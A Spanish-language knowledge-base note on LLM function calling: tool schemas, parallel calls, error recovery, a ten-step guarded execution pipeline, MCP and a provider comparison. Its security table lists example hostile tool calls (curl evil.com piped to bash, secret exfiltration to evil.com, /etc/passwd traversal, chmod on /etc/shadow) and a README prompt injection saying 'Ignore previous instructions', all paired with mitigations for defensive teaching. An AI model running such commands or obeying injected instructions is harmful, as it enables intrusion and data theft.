





# Tool Use y Function Calling

> [!abstract]
> *Function calling* (también llamado *tool use*) es el mecanismo que permite a un LLM ==invocar funciones externas de forma estructurada==, transformándolo de un generador de texto en un agente capaz de interactuar con el mundo real. Esta nota cubre el mecanismo completo: cómo los LLMs generan tool calls, los schemas JSON que definen herramientas, la ejecución paralela de herramientas, el manejo de errores, las ==implicaciones de seguridad críticas== (ejecución arbitraria de código, exfiltración de datos, inyección de prompts vía herramientas), cómo [[architect-overview|architect]] implementa un pipeline de 10 pasos con validación Pydantic y guardrails, el protocolo MCP como estándar emergente, y una comparación de function calling entre los principales providers. ^resumen

---

## El mecanismo fundamental

*Function calling* es, en esencia, un acuerdo entre el LLM y el sistema host: el LLM no ejecuta funciones directamente, sino que ==genera una solicitud estructurada (JSON) pidiendo que el sistema ejecute una función específica con argumentos específicos==.



> [!info] El LLM nunca ejecuta nada directamente
> Un punto crucial: el LLM **genera texto** que describe qué función llamar y con qué argumentos. Es la aplicación host la que parsea este texto, valida los argumentos, ejecuta la función y devuelve el resultado. El LLM no tiene acceso directo a ningún sistema --- todo pasa por la capa de la aplicación, que es donde se aplican los guardrails.

---

## Schemas de herramientas: la interfaz entre LLM y mundo real

Las herramientas se definen mediante *JSON Schema*, un estándar para describir la estructura de datos JSON. El schema le dice al LLM qué funciones existen, qué parámetros aceptan y qué hacen.

### Anatomía de un schema de herramienta

> [!example]- Schema completo de una herramienta de lectura de ficheros
> ```json
> {
>   "type": "function",
>   "function": {
>     "name": "read_file",
>     "description": "Lee el contenido completo de un fichero del proyecto. Usa esta herramienta cuando necesites ver el código fuente, configuración o documentación de un fichero específico. Devuelve el contenido como string con números de línea.",
>     "parameters": {
>       "type": "object",
>       "properties": {
>         "path": {
>           "type": "string",
>           "description": "Ruta relativa al fichero desde la raíz del proyecto. Ejemplo: 'src/auth/middleware.py'"
>         },
>         "start_line": {
>           "type": "integer",
>           "description": "Línea inicial para lectura parcial (opcional, default: 1)",
>           "default": 1
>         },
>         "end_line": {
>           "type": "integer",
>           "description": "Línea final para lectura parcial (opcional, default: fin del fichero)"
>         }
>       },
>       "required": ["path"],
>       "additionalProperties": false
>     }
>   }
> }
> ```

### Principios para buenos schemas

| Principio | Descripción | Ejemplo |
|---|---|---|
| **Descripción rica** | Incluir cuándo usar la herramienta y qué devuelve | "Usa esta herramienta cuando necesites..." |
| **Tipos estrictos** | Usar tipos JSON Schema precisos | `"type": "integer"` no `"type": "number"` |
| **Enums cuando aplique** | Restringir valores a opciones válidas | `"enum": ["error", "warning", "info"]` |
| **Defaults explícitos** | Indicar valores por defecto | `"default": 1` |
| **Required mínimo** | Solo marcar como requerido lo necesario | Parametros opcionales con defaults |
| **additionalProperties: false** | Prevenir argumentos inesperados | Evita que el LLM invente parámetros |

> [!tip] La descripción es el prompt de la herramienta
> El LLM decide qué herramienta usar basándose ==principalmente en la descripción==. Una descripción vaga como "lee ficheros" es menos efectiva que "Lee el contenido de un fichero del proyecto. Usa esta herramienta cuando necesites ver código fuente, configuración o documentación." La calidad del schema afecta directamente la calidad del [[agent-loop|agent loop]].

---

## Parallel Tool Calls

Los LLMs modernos pueden generar múltiples tool calls en una sola respuesta, indicando que quieren ejecutar varias herramientas simultáneamente:

```json
// Respuesta del LLM con parallel tool calls
{
  "role": "assistant",
  "tool_calls": [
    {
      "id": "call_001",
      "type": "function",
      "function": {
        "name": "read_file",
        "arguments": "{\"path\": \"src/auth/middleware.py\"}"
      }
    },
    {
      "id": "call_002",
      "type": "function",
      "function": {
        "name": "read_file",
        "arguments": "{\"path\": \"src/auth/models.py\"}"
      }
    },
    {
      "id": "call_003",
      "type": "function",
      "function": {
        "name": "search_code",
        "arguments": "{\"pattern\": \"JWT\", \"path\": \"src/\"}"
      }
    }
  ]
}
```

### Cuándo son seguras las llamadas paralelas

> [!warning] No todas las tool calls paralelas son seguras
>
> | Combinación | Segura | Razón |
> |---|---|---|
> | Lectura + Lectura | Si | No hay efectos secundarios |
> | Lectura + Búsqueda | Si | Ambas son read-only |
> | Escritura + Lectura (diferente fichero) | Si | No hay conflicto |
> | Escritura + Escritura (mismo fichero) | **No** | Condición de carrera |
> | Escritura + Lectura (mismo fichero) | **No** | Read puede ver estado intermedio |
> | Ejecución + Ejecución | **Depende** | Verificar efectos secundarios |

[[architect-overview|architect]] resuelve esto serializando automáticamente tool calls que operan sobre el mismo fichero, manteniendo paralelismo para las demás.

---

## Manejo de errores y recuperación

Los tool calls pueden fallar. La robustez de un agente depende de cómo maneja estos errores.

### Tipos de error



### Patrón de recuperación

> [!example]- Ejemplo: error de ejecución y recuperación del agente
> ```
> [Paso 5] Agente solicita:
>   tool_call: run_command("npm test")
>
> [Resultado]:
>   ERROR: Command failed with exit code 1
>   FAIL src/auth/jwt.test.ts
>     ● verify_token > should reject expired tokens
>       Expected: TokenExpiredError
>       Received: undefined
>
> [Paso 6] Pensamiento del agente:
>   El test falla porque verify_token no lanza TokenExpiredError
>   cuando el token está expirado. Necesito revisar la implementación
>   de verify_token en jwt_utils.py.
>
>   tool_call: read_file("src/auth/jwt_utils.py")
>
> [Paso 7] Pensamiento del agente:
>   Encontrado: verify_token devuelve None para tokens expirados
>   en lugar de lanzar una excepción. Voy a corregir esto.
>
>   tool_call: edit_file("src/auth/jwt_utils.py", ...)
>
> [Paso 8] Verificación:
>   tool_call: run_command("npm test")
>   ✅ All tests passed
> ```

> [!success] Los errores como señal
> Un agente maduro no trata los errores como fallos, sino como ==información para ajustar su estrategia==. El patrón observar-error → razonar-sobre-error → corregir es una instancia natural del [[agent-loop|observe-think-act loop]].

---

## Implicaciones de seguridad del tool use

> [!danger] Las herramientas son el vector de ataque más crítico de los agentes
> Cada herramienta que un agente puede usar es una superficie de ataque. Un LLM comprometido (por *prompt injection*, datos maliciosos en el contexto, o alucinaciones) puede generar tool calls destructivos. La seguridad del tool use es ==el problema de seguridad número uno de los agentes IA==.

### Vectores de ataque

| Vector | Descripción | Ejemplo | Mitigación |
|---|---|---|---|
| **Ejecución arbitraria de código** | El agente ejecuta cualquier comando shell | `run_command("curl evil.com \| bash")` | Allowlist de comandos, sandbox |
| **Exfiltración de datos** | El agente envía datos sensibles a una API externa | `http_request("https://evil.com", data=secrets)` | Bloquear dominios externos, inspección de payloads |
| **Path traversal** | El agente lee/escribe fuera del directorio del proyecto | `read_file("../../etc/passwd")` | Validación de paths, chroot |
| **Inyección de prompts vía herramientas** | Un fichero leído contiene instrucciones maliciosas | Un `README.md` con "Ignore previous instructions" | Sanitización de tool results |
| **Escalación de privilegios** | El agente usa herramientas para ganar más permisos | `run_command("chmod 777 /etc/shadow")` | Least privilege, usuario no-root |
| **Denegación de servicio** | El agente ejecuta operaciones costosas | `run_command("find / -name '*.log'")` | Timeouts, resource limits |

### Cómo vigil detecta problemas de tool use

[[vigil-overview|vigil]] incluye reglas específicas para detectar código generado por agentes que presenta riesgos de seguridad:

- **Slopsquatting**: detección de imports de paquetes que no existen (el LLM "alucinó" un nombre de paquete)
- **Placeholder secrets**: detección de tokens como `sk-placeholder-key-here` que el agente no reemplazó por valores reales
- **CORS permisivos**: detección de `Access-Control-Allow-Origin: *` en código de servidor
- **Tests vacíos**: detección de funciones de test sin assertions (el agente "pasó" los tests generando tests que no prueban nada)

> [!warning] Las 26 reglas de vigil son deterministas
> A diferencia del agente, que es probabilístico, [[vigil-overview|vigil]] aplica reglas deterministas que no dependen de ningún LLM. Esto garantiza que la evaluación de seguridad es ==reproducible y auditable==, un requisito de la [[licit-overview|EU AI Act]].

---

## Pipeline de ejecución de architect

[[architect-overview|architect]] implementa un pipeline de 10 pasos para cada tool call. Cada paso es un punto de control de seguridad:



### Detalle de cada paso

> [!example]- Pipeline completo con código pseudocódigo
> ```python
> from pydantic import BaseModel, ValidationError
> from typing import Any
>
> class ToolExecutionPipeline:
>     def __init__(self, registry, guardrails, hooks, telemetry):
>         self.registry = registry
>         self.guardrails = guardrails
>         self.hooks = hooks
>         self.telemetry = telemetry
>
>     def execute(self, tool_call) -> str:
>         """Pipeline de 10 pasos para ejecutar un tool call."""
>
>         # 1. REGISTRY LOOKUP
>         tool = self.registry.get(tool_call.function.name)
>         if not tool:
>             return f"ERROR: Herramienta '{tool_call.function.name}' no existe."
>
>         # 2. SCHEMA VALIDATION (Pydantic)
>         try:
>             args = tool.schema.model_validate_json(tool_call.function.arguments)
>         except ValidationError as e:
>             return f"ERROR: Argumentos inválidos: {e}"
>
>         # 3. GUARDRAILS CHECK
>         violation = self.guardrails.check(tool.name, args)
>         if violation:
>             return f"BLOCKED: {violation.reason}"
>             # Ejemplos de violaciones:
>             # - Path fuera del directorio del proyecto
>             # - Comando en blocklist (rm -rf, curl | bash)
>             # - Escritura a fichero protegido (.env, .git/)
>
>         # 4. PRE-HOOKS
>         for hook in self.hooks.pre:
>             hook(tool.name, args)
>             # Logging, métricas, rate limiting
>
>         # 5. CONFIRMATION (si la herramienta lo requiere)
>         if tool.requires_confirmation:
>             approved = self.confirm_with_user(tool.name, args)
>             if not approved:
>                 return "CANCELLED: El usuario canceló la acción."
>
>         # 6. DRY-RUN (si está habilitado)
>         if self.config.dry_run:
>             return tool.dry_run(args)
>
>         # 7. EXECUTION
>         with self.telemetry.span(f"tool.{tool.name}") as span:
>             try:
>                 result = tool.execute(args)
>                 span.set_attribute("status", "success")
>             except Exception as e:
>                 span.set_attribute("status", "error")
>                 result = f"ERROR: {e}"
>
>         # 8. POST-HOOKS
>         for hook in self.hooks.post:
>             result = hook(tool.name, args, result)
>             # Sanitización de output
>             # Truncamiento si es muy largo
>             # Validación de formato
>
>         # 9. LOGGING
>         self.telemetry.log_tool_execution(
>             tool=tool.name,
>             args=args.model_dump(),
>             result_length=len(result),
>             duration=span.duration
>         )
>
>         # 10. RETURN
>         return self._format_for_llm(result)
> ```

### Validación Pydantic de herramientas

Cada herramienta tiene un modelo Pydantic que valida los argumentos antes de la ejecución:

```python
from pydantic import BaseModel, Field, field_validator
from pathlib import Path

class ReadFileArgs(BaseModel):
    path: str = Field(description="Ruta relativa al fichero")
    start_line: int = Field(default=1, ge=1)
    end_line: int | None = Field(default=None, ge=1)

    @field_validator("path")
    @classmethod
    def validate_path(cls, v: str) -> str:
        # Prevenir path traversal
        if ".." in v or v.startswith("/"):
            raise ValueError("Path must be relative and cannot contain '..'")
        return v

class WriteFileArgs(BaseModel):
    path: str = Field(description="Ruta relativa al fichero")
    content: str = Field(description="Contenido completo del fichero")

    @field_validator("path")
    @classmethod
    def validate_no_protected(cls, v: str) -> str:
        protected = [".env", ".git/", "node_modules/", "__pycache__/"]
        if any(v.startswith(p) or v == p for p in protected):
            raise ValueError(f"Cannot write to protected path: {v}")
        return v
```

> [!tip] Pydantic como primera línea de defensa
> La validación Pydantic captura ==errores del LLM antes de que lleguen a la ejecución==. Si el LLM genera un path con `..`, Pydantic lo rechaza inmediatamente. Esto es más robusto que validar en la función de ejecución, porque la validación ocurre en el paso 2, antes de cualquier side effect.

---

## MCP: Model Context Protocol

> [!info] MCP como estándar emergente
> *Model Context Protocol* (MCP), creado por Anthropic, es un protocolo abierto para que los LLMs interactúen con herramientas y fuentes de datos externas de forma estandarizada. Ver [[mcp-protocol]] para detalles completos.

### Qué problema resuelve MCP

Sin MCP, cada integración LLM ↔ herramienta es ad-hoc: cada provider tiene su formato de function calling, cada herramienta expone su propia API. MCP estandariza:



### intake como servidor MCP

[[intake-overview|intake]] expone un servidor MCP que permite a cualquier agente compatible consumir sus capacidades:

- **`parse_requirements`**: parsea un documento de requisitos y devuelve specs normalizadas
- **`get_task_dag`**: genera un DAG de tareas desde una spec
- **`validate_spec`**: valida que una spec cumple el formato esperado

Esto significa que [[architect-overview|architect]] (o cualquier otro agente MCP-compatible) puede invocar intake como herramienta, sin necesidad de integración ad-hoc.

---

## Comparación de function calling entre providers

| Característica | OpenAI | Anthropic | Google (Gemini) |
|---|---|---|---|
| **Nombre del feature** | Function calling / Tools | Tool use | Function calling |
| **Formato de schema** | JSON Schema | JSON Schema | JSON Schema (con variantes) |
| **Parallel tool calls** | Si (desde GPT-4 Turbo) | Si (desde Claude 3) | Si (desde Gemini 1.5) |
| **Strict mode** | Si (`strict: true`) | Implícito | No |
| **Tool choice** | `auto`, `required`, `none`, o nombre específico | `auto`, `any`, o nombre específico | `auto`, `none`, o nombre específico |
| **Streaming de tool calls** | Si | Si | Si |
| **Límite de herramientas** | 128 | 1024+ | 128 |
| **Respuesta mixta (texto + tools)** | No (texto O tools) | Si (puede mezclar texto y tool calls) | Si |

> [!warning] Diferencias sutiles que importan
> Aunque todos usan JSON Schema, hay diferencias importantes:
> - OpenAI en modo `strict: true` garantiza que el output cumple exactamente el schema (sin campos extra, tipos correctos). Anthropic y Google no tienen un equivalente explícito.
> - Anthropic permite que el LLM genere texto Y tool calls en la misma respuesta. OpenAI genera uno u otro.
> - Google tiene variantes en el formato de schema que requieren adaptación.
>
> [[architect-overview|architect]] abstrae estas diferencias usando LiteLLM como capa de compatibilidad, que normaliza el formato de function calling entre providers.

### Evolución del function calling



---

## Patrones avanzados de tool use

### 1. Tool chaining

El agente usa el resultado de una herramienta como input de la siguiente:

```
Paso 1: search_code("def authenticate") → encontrado en auth/middleware.py:45
Paso 2: read_file("auth/middleware.py", start_line=40, end_line=60) → código de la función
Paso 3: edit_file("auth/middleware.py", ...) → aplicar cambio
Paso 4: run_command("python -m pytest tests/auth/") → verificar
```

### 2. Tool composition

El agente combina herramientas para crear capacidades que ninguna herramienta individual tiene:

```
"Buscar todos los ficheros que importan el módulo auth" =
  search_code("from auth import|import auth") +
  leer cada resultado para entender el contexto de uso
```

### 3. Fallback tools

Si una herramienta falla, el agente usa una alternativa:

```
Intento 1: search_code("pattern") → ERROR: ripgrep no instalado
Intento 2: run_command("grep -r 'pattern' src/") → funciona
```

### 4. Meta-tools

Herramientas que crean o descubren otras herramientas:

```
list_available_tools() → ["read_file", "write_file", ...]
get_tool_schema("read_file") → {schema JSON}
```

> [!question] ¿Cuántas herramientas son demasiadas?
> La investigación sugiere que más de 20-30 herramientas empiezan a degradar la calidad de selección del LLM [^1]. El LLM tiene que decidir entre todas las herramientas disponibles en cada paso, y con demasiadas opciones, puede elegir mal. [[architect-overview|architect]] mantiene ==11 herramientas core== como compromiso entre capacidad y precisión de selección.

---

## Anti-patrones de tool use

> [!failure] Errores comunes en la implementación de tool use
>
> **1. Herramientas sin descripción**: El LLM no sabe cuándo usarlas. La descripción ES el prompt de la herramienta.
>
> **2. Schemas permisivos**: `"additionalProperties": true` permite al LLM inventar parámetros que no existen.
>
> **3. Sin validación de argumentos**: Confiar en que el LLM siempre genera JSON válido. Los LLMs a veces generan JSON malformado, especialmente con schemas complejos.
>
> **4. Ejecutar sin guardrails**: Cada tool call debe pasar por validación de seguridad antes de ejecutarse. Sin guardrails, un solo tool call malicioso puede comprometer el sistema.
>
> **5. Resultados sin truncamiento**: Si `read_file` devuelve 10,000 líneas, el contexto se llena. Los resultados deben truncarse inteligentemente.
>
> **6. Sin timeout en ejecución**: Un `run_command("find / -name '*.log'")` puede tardar minutos. Cada ejecución necesita un timeout.
>
> **7. Herramientas CRUD genéricas**: Una herramienta `execute_sql("DROP TABLE users")` sin restricciones es un desastre esperando ocurrir. Las herramientas deben ser ==específicas y con privilegios mínimos==.

---

## Relación con el ecosistema

- **[[intake-overview|intake]]**: expone un ==servidor MCP== que transforma sus capacidades en herramientas consumibles por cualquier agente. Sus herramientas MCP (`parse_requirements`, `get_task_dag`) permiten a architect invocar intake como una herramienta más dentro de su loop, creando un pipeline seamless requisitos → plan → código.

- **[[architect-overview|architect]]**: implementa la ==referencia completa de tool use== con su pipeline de 10 pasos, 11 herramientas core con validación Pydantic, guardrails en cada ejecución, y soporte para sub-agentes que heredan y restringen las herramientas del agente padre. Es la materialización práctica de todos los conceptos de esta nota.

- **[[vigil-overview|vigil]]**: actúa como ==post-guard del tool use==. Después de que architect ha usado herramientas para generar código, vigil analiza el resultado para detectar problemas que las herramientas no pueden prevenir: slopsquatting (imports de paquetes alucinados), placeholder secrets, tests vacíos. Es la segunda línea de defensa después de los guardrails de ejecución.

- **[[licit-overview|licit]]**: registra ==cada tool call para trazabilidad==. La EU AI Act exige documentar qué acciones tomó un sistema IA y por qué. Licit consume los logs de herramientas de architect (qué herramienta, qué argumentos, qué resultado) para generar reportes de trazabilidad auditables. También valida que el uso de herramientas cumple con las 10 reglas del OWASP Agentic Top 10.

---

## Enlaces y referencias

> [!quote]- Bibliografía
> - Schick, T., et al. (2023). *Toolformer: Language Models Can Teach Themselves to Use Tools*. arXiv:2302.04761 [^1]
> - Qin, Y., et al. (2023). *Tool Learning with Foundation Models*. arXiv:2304.08354 [^2]
> - Patil, S., et al. (2023). *Gorilla: Large Language Model Connected with Massive APIs*. arXiv:2305.15334 [^3]
> - Anthropic. (2024). *Model Context Protocol Specification*. https://modelcontextprotocol.io [^4]
> - OpenAI. (2024). *Function Calling Documentation*. https://platform.openai.com/docs/guides/function-calling [^5]
> - OWASP. (2025). *Agentic AI Top 10*. https://owasp.org/www-project-agentic-ai-top-10/ [^6]

### Notas relacionadas

- [[que-es-un-agente-ia]] — Contexto: la agencia requiere herramientas
- [[anatomia-agente]] — Las herramientas como componente de la anatomía
- [[agent-loop]] — El loop que orquesta las herramientas
- [[planning-agentes]] — Los planes determinan qué herramientas usar
- [[mcp-protocol]] — Protocolo MCP en profundidad
- [[seguridad-agentes]] — Seguridad del tool use en detalle
- [[architect-overview]] — Implementación de referencia del pipeline
- [[vigil-overview]] — Scanner post-ejecución
- [[moc-agentes]] — Mapa de contenido

---

[^1]: Schick, T., Dwivedi-Yu, J., Dessì, R., et al. (2023). *Toolformer: Language Models Can Teach Themselves to Use Tools*. arXiv:2302.04761.
[^2]: Qin, Y., Liang, S., Ye, Y., et al. (2023). *Tool Learning with Foundation Models*. arXiv:2304.08354.
[^3]: Patil, S., Zhang, T., Wang, X., & Gonzalez, J. (2023). *Gorilla: Large Language Model Connected with Massive APIs*. arXiv:2305.15334.
[^4]: Anthropic. (2024). *Model Context Protocol Specification*. https://modelcontextprotocol.io
[^5]: OpenAI. (2024). *Function Calling Documentation*. https://platform.openai.com/docs/guides/function-calling
[^6]: OWASP. (2025). *Agentic AI Top 10*. https://owasp.org/www-project-agentic-ai-top-10/
